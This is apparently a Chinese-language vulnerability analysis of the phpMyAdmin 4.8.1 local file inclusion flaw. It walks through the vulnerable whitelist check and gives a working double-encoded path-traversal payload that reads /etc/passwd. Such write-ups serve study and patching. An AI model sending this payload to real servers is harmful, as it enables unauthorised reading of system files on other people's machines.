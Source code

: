 # 漏洞实现方案

## 漏洞原理

在PhpMyAdmin4.8.1版本的index.php代码 55-63行

```
if (! empty($_REQUEST['target'])
    && is_string($_REQUEST['target'])
    && ! preg_match('/^index/', $_REQUEST['target'])
    && ! in_array($_REQUEST['target'], $target_blacklist)
    && Core::checkPageValidity($_REQUEST['target'])
) {
    include $_REQUEST['target'];
    exit;
}
```
if判断进入`  include $_REQUEST['target'];`需要经过5个判断：

1. `$_REQUEST['target']`不能为空

2. `$_REQUEST['target']`为字符串

3. `$_REQUEST['target']`不能以index开头

4. `$_REQUEST['target']`不在`$target_blacklist`数组内

5. 需要满足`Core::checkPageValidity($_REQUEST['target'])`

其中前三点比较好明白，重点看第四点和第五点：

这里首先我们先看一下第4点`$target_blacklist`是个什么，`$target_blacklist`在`index.php`的第50～52行 

```php
$target_blacklist = array (
    'import.php', 'export.php'
);
```

所以这里第四点只要满足target 参数不是 `import.php` 或 `export.php` 就行。

然后第5点我们说到需要满足`Core::checkPageValidity($_REQUEST['target'])`，这里跟进一下看看`checkPageValidity`这个函数具体在干嘛。 

 函数具体位置在libraries\classes\core.php的443～476行 

```php
public static function checkPageValidity(&$page, array $whitelist = [])
{
    if (empty($whitelist)) {
        $whitelist = self::$goto_whitelist;
    }
    if (! isset($page) || !is_string($page)) {
        return false;
    }

    if (in_array($page, $whitelist)) {
        return true;
    }

    $_page = mb_substr(
        $page,
        0,
        mb_strpos($page . '?', '?')
    );
    if (in_array($_page, $whitelist)) {
        return true;
    }

    $_page = urldecode($page);
    $_page = mb_substr(
        $_page,
        0,
        mb_strpos($_page . '?', '?')
    );
    if (in_array($_page, $whitelist)) {
        return true;
    }

    return false;
}
```

问题出在下面的这串代码

```php
$_page = urldecode($page);
$_page = mb_substr(
    $_page,
    0,
    mb_strpos($_page . '?', '?')
);
if (in_array($_page, $whitelist)) {
    return true;
}
```

这里会将page参数进行url解码，然后判断是否在`$whitelist`是的话返回true。

这里可以看看`$whitelist`有哪些。

```
if (empty($whitelist)) {
    $whitelist = self::$goto_whitelist;
}
```

 跟进`$goto_whitelist`看到下面这些白名单数组。 

```php
public static $goto_whitelist = array(
    'db_datadict.php',
    'db_sql.php',
    'db_events.php',
    'db_export.php',
    'db_importdocsql.php',
    'db_multi_table_query.php',
    'db_structure.php',
    'db_import.php',
    'db_operations.php',
    'db_search.php',
    'db_routines.php',
    'export.php',
    'import.php',
    'index.php',
    'pdf_pages.php',
    'pdf_schema.php',
    'server_binlog.php',
    'server_collations.php',
    'server_databases.php',
    'server_engines.php',
    'server_export.php',
    'server_import.php',
    'server_privileges.php',
    'server_sql.php',
    'server_status.php',
    'server_status_advisor.php',
    'server_status_monitor.php',
    'server_status_queries.php',
    'server_status_variables.php',
    'server_variables.php',
    'sql.php',
    'tbl_addfield.php',
    'tbl_change.php',
    'tbl_create.php',
    'tbl_import.php',
    'tbl_indexes.php',
    'tbl_sql.php',
    'tbl_export.php',
    'tbl_operations.php',
    'tbl_structure.php',
    'tbl_relation.php',
    'tbl_replace.php',
    'tbl_row_action.php',
    'tbl_select.php',
    'tbl_zoom_select.php',
    'transformation_overview.php',
    'transformation_wrapper.php',
    'user_password.php',
);
```

### 漏洞利用

网上的payload：`db_sql.php%253/../../../../../../etc/passwd`其中`db_sql.php`为白名单上的就可替换绕过。

```php
$_page = mb_substr(
    $page,
    0,
    mb_strpos($page . '?', '?')
);
if (in_array($_page, $whitelist)) {
    return true;
}
```

 这里有个很关键的点，就是 `urldecode` 了我们传进来的 `$page`，然后又获取了问号前的文件名，所以我们把问号 `url` 编码一下都没问题，像这样： 

db_datadict.php%3F/../a.txt

 `include` 是允许 `%3f` 作为文件名的一部分

因为浏览器还是会解码一次，所以需要把`?`再编码一次，就有了一开始的payload:

`index.php?target=db_sql.php%253F/../../../../../../etc/passwd`